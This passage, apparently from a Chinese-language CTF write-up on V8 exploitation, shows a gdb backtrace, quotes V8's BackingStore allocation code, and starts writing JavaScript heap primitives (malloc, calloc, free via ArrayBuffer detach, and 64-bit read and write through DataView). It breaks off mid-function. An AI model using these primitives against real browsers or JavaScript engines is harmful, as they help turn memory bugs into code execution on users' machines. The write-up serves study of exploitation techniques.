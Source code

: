 ```asm
#12 0x00007f9a969a01e6 in v8::internal::BackingStore::Allocate (isolate=0x142000000000, byte_length=0x60, shared=v8::internal::SharedFlag::kNotShared, initialized=v8::internal::InitializedFlag::kUninitialized) at ../../src/objects/backing-store.cc:252
#13 0x00007f9a96356277 in v8::internal::(anonymous namespace)::ConstructBuffer (isolate=0x142000000000, target=..., new_target=..., length=..., initialized=v8::internal::InitializedFlag::kUninitialized) at ../../src/builtins/builtins-arraybuffer.cc:56
#14 0x00007f9a963542bf in v8::internal::Builtin_Impl_ArrayBufferConstructor_DoNotInitialize (args=..., isolate=0x142000000000) at ../../src/builtins/builtins-arraybuffer.cc:104
#15 0x00007f9a96353fae in v8::internal::Builtin_ArrayBufferConstructor_DoNotInitialize (args_length=0x6, args_object=0x7ffc940ddf48, isolate=0x142000000000) at ../../src/builtins/builtins-arraybuffer.cc:99
#16 0x00007f9a95dab63f in Builtins_CEntry_Return1_DontSaveFPRegs_ArgvOnStack_BuiltinExit () from /home/f0cus77/work/pwn/v8/v8/out/x64.debug/libv8.so
#17 0x00007f9a95fbed6c in Builtins_CreateTypedArray () 
```

对应到`v8`中的代码如下所示，当触发`malloc`的时候，走的是`AllocateUninitialized`分支；调用`calloc`的时候，走的是`Allocate`分支。

```c++
// Allocate a backing store using the array buffer allocator from the embedder.
std::unique_ptr<BackingStore> BackingStore::Allocate(
    Isolate* isolate, size_t byte_length, SharedFlag shared,
    InitializedFlag initialized) {
    ...
    auto allocate_buffer = [allocator, initialized](size_t byte_length) {
      if (initialized == InitializedFlag::kUninitialized) {
        return allocator->AllocateUninitialized(byte_length);
      }
      void* buffer_start = allocator->Allocate(byte_length);
      ...
      return buffer_start;
    };
```

有了上面的解释，下面我们来构造菜单题所对应的原语，如下所示：

```js
function calloc(size)
{
    let uint8 =  new Uint8Array(size);
    return uint8;
}

function malloc(size)
{
    var malloc_size = {};
    malloc_size.length = size;
    let uint8 =  new Uint8Array(malloc_size);
    return uint8;
}

function free(ptr)
{
    %ArrayBufferDetach(ptr.buffer);
}

function write64(ptr, offset, val)
{
    let dv = new DataView(ptr.buffer);
    dv.setBigInt64(offset, val, true);
    return;
}

function read64(ptr, offset)
{
```